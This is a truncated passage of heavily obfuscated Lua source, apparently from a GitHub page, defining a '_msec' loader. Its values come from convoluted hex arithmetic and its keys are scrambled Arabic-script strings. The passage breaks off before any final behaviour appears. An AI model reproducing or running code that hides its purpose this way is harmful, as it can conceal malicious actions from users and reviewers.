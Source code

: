 ,nil,nil;(function() _msec=(function(e,o,l)local H=o["ؠټڪقآټؠټڝقح"];local R=l[e[(773+-0x4f)]][e["جڝؠق؃؃كدسنددؠڪؠضئؠ"]];local c=(0x1d+-25)/(0x79-((40088-0x4e80)/168))local x=((0x2370/(0xe0+-62))/28)-(-41+0x2a)local y=l[e[((0x6ba00/28)/123)]][e["ضڝ؃حدجحك؃ټ"]];local j=(((3456/0x18)-0x52)-0x3d)+(356/0xb2)local t=l[e[(674+-0x7a)]][e["؃سن؃ن؃كسضنڝكزضضؠؠ؃آ"]]local n=(113+-0x6f)-(((0x197+-96)-0xc8)/111)local C=(44+((-117+(-0x368e+6963))/0xb2))local L=(((-0x51e-(-1122+0x20c))/8)+93)local N=((((-44+0x305)-0x189)-184)/0x26)local v=((((39706452/0xae)-114150)/0xc6)/0x90)local B=(0x32c/(442-(531-(650-(0x2e1-379)))))local s=(((0xd913+(-19837/(0x118+-41)))/102)/0x88)local i=(((-38+(-6720/0x70))+432)/0xa7)local w=(320/((53778-(2124942/(7663/0x61)))/0xa8))local b=(0x4f-((32630/(0x2490/72))-0xae))local P=(50-(0x21f0/(0x4e7b/(173+-0x3e))))local U=(-61+((-44+(-48+0xb5))+-0x1a))local _=((-1950/((-0x28c8/145)+97))+80)local O=((0x126f/(0x99+(-0x1d00/232)))-36)local M=(681/(521-((-64+0x1e5)+-127)))local h=((21141/(0x2ab7/(11070/0xf6)))-84)local k=((((-0x5392+10634)+5336)/113)+51)local D=(((7285+(-2325/0x5d))/121)-57)local f=((0x104-((0x191d6/254)-0xf9))+-101)local K=e[(0xaa4-1406)];local G=l[e[(0x5080/161)]][e["ټحڪئ؃ق؃كؠئضڪنآسدض"]];local Q=l[(function(e)return type(e):sub(1,1)..'\101\116'end)('سزڪدؠڪئس')..'\109\101'..('\116\97'or'دككزټنحق')..e[(-0x1c+580)]];local J=l[e[(1162-0x262)]][e["حټحئجنڪڪق؃ضكقس"]];local m=(0x1d0/232)-(39-((7373+-0x54)/0xc5))local g=(0x5f+((-0x9b+33)+29))-(432/0xd8)local Y=l[e[((-31-0x1b)+0xba)]][e["ئجآزدڪ؃قؠ"]];local d=function(l,e)return l..e end local p=(392/0x62)*((108+(-0x9-49))-0x2e)local V=l[e["حآجآؠڝجؠكدټټدزسآددس"]];local r=(0x4c-74)*((0xd9000/(0x7158/234))/0x38)local A=(0x3e400/249)*(((61520+-0x28)/212)/145)local W=((((-8908+-0x5f)+4493)/0x29)+162)local S=((289-(0x1a04/36))-0x66)*(80-0x4e)local u=l[e["دسنؠجضنڝكنڝ"]]or l[e[(0x4ab-643)]][e["دسنؠجضنڝكنڝ"]];local a=(-0x55+(0x2d4-(0x23e8/(0x9f-135))))local e=l[e["ڝ؃سجسڪؠ؃ز"]];local J=(function(a)local r,o=2,0x10 local l={j={},v={}}local d=-n local e=o+x while true do l[a:sub(e,(function()e=r+e return e-x end)())]=(function()d=d+n return d end)()if d==(p-n)then d=""o=m break end end local d=#a while
e
